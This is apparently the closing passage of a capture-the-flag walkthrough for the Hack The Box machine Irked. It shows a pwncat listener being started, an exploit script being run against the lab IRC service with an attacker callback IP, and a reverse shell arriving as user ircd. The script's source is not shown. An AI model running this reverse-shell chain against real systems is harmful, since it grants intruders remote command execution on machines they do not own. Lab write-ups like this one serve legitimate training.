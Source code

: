 1. Run a listener
```
(pwncat-env) ┌──(kali㉿kali)-[~/Desktop/pwncat]
└─$ pwncat --listen -p 4444
```

2. Exploit it ;)

```
┌──(kali㉿kali)-[~/Desktop/HTB/Irked]
└─$ ./exploit.py 10.10.10.117 6697 10.10.14.27 4444
[+] Connecting to 10.10.10.117:6697
[+] Sending the payload
[+] Payload sent
[!] Make sure to run the listener
[+] Exit!
```
It will take less than one minute to get a shell.

```
(pwncat-env) ┌──(kali㉿kali)-[~/Desktop/pwncat]
└─$ pwncat --listen -p 4444 
[19:35:27] received connection from 10.10.10.117:35653
[19:35:28] new host w/ hash 24bfeaa0a16a65c4545f02b822626231
[19:35:30] pwncat running in /bin/bash
[19:35:31] pwncat is ready 🐈
                                                                                                                                                                                                                                            
(remote) ircd@irked:/$ id
uid=1001(ircd) gid=1001(ircd) groups=1001(ircd)
```

Thank you for reading, and you can find me here on twitter: https://twitter.com/electronicbots

If you need help with the code just PM me on twitter ;)
